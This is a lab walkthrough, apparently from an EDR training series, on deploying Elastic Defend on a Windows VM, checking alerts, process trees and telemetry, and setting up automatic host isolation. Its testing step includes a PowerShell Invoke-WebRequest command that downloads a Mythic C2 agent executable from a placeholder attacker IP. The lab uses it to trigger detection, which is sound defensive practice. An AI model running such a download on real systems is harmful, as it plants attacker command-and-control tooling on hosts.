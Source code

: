 ### 1. Introduction

**Goal:** Install and configure Elastic Defend on a Windows host to observe real-time endpoint telemetry, detect malicious activity, and test response capabilities.

---

### 2. Installing Elastic Defend

**Steps:**

- **Access Integrations:**  
    Click on the hamburger icon, scroll down to **Integrations**, and search for **Elastic Defend**.
    
- **Add Integration:**  
    Select _Add Elastic Defend_, name the integration (**MyDFIR-EDR**), and choose the configuration type — _Complete EDR_ to capture full telemetry.
    
- **Deploy:**  
    After the setup, deploy the configuration by clicking **Save and Continue** followed by **Save and Deploy Changes**.
    
![[Pasted image 20251020003054.png]]

---

### 3. Verifying Installation

**Steps:**

- **Check Endpoints:**  
    Go to **Security → Manage → Endpoints** to confirm the Windows host is enrolled and running Elastic Defend.
    
- **Optional Host Isolation:**  
    If a 30-day trial license is active, you can remotely isolate the host. _(This feature isn’t available on the free tier.)_
---

### 4. Testing Elastic Defend

**Steps:**

- **Trigger Detection:**  
    Open the Windows server console and terminate the malicious `mydfir-30.exe` process. Attempt to run the file again to verify whether Elastic Defend blocks it.


- **Confirm Alert:**  
    Check that the EDR triggers a **malware alert** and quarantines the file immediately.
    
![[Pasted image 20251020004530.png]]
---

### 5. Viewing Telemetry

**Steps:**

- **Search Malware Events:**  
    Open **Discover** and search for recent malware activity. Adjust the time filter (e.g., _Last 15 minutes_) and sort results by timestamp.
    
- **Review Alert Data:**  
    Inspect the alert fields for details like file path, quarantine location, file name, file owner, and file hash.
    
- **Visualize Process Tree:**  
    Use the process tree to view parent-child relationships and track the execution chain.
    
![[Pasted image 20251020004848.png]]


![[Screenshot 2025-10-20 005037.png]]



---

### 6. Configuring Response Actions

**Steps:**

- **Edit Detection Rule:**  
    Open **Detection Rules**, select the relevant malware prevention rule, and click **Edit Rule Settings**.
    
- **Add Response Action:**  
    Configure a response (e.g., host isolation).
    
- **Test Action:**  
    - Re-trigger the malware event and confirm that the response (e.g., isolation) is automatically executed.
    - Try to download the Mythic Agent again. SSH into the Mythic instance and mount the HTTP server again on port 9999.
    - Go to RDP session on Windows VM and open a PowerShell console, if you move up with the arrows you should find the command of **Invoke-WebRequest** and try to download it again (command: `Invoke-WebRequest -Uri http://<MYDFIR-MYTHIC-IP>:9999/mydfir-30.exe -OutFile "C:\Users\Public\Downloads\mydfir-30.exe"`). The EDR reacts and deletes the file immediately.
    - Move to our Endpoints information and click on our Windows VM endpoint. You should see the Isolated tag next to the Healthy one.
    
![[Pasted image 20251020005826.png]]

![[Pasted image 20251020010332.png]]

![[Pasted image 20251020010927.png]]

---

### 7. Conclusion

- Elastic Defend successfully detected and blocked the malicious file in real time.
    
- Telemetry provided clear visibility into file and process activity.
    
- Configuring response actions enhances security posture by enabling automated containment.
    
- Even on the free tier, Elastic Defend offers strong detection and alerting capabilities, with advanced features available on trial or paid plans.

**Reference**
https://youtu.be/Ec-Ab8TbJKs?si=3q8KM65SbuYfHdVp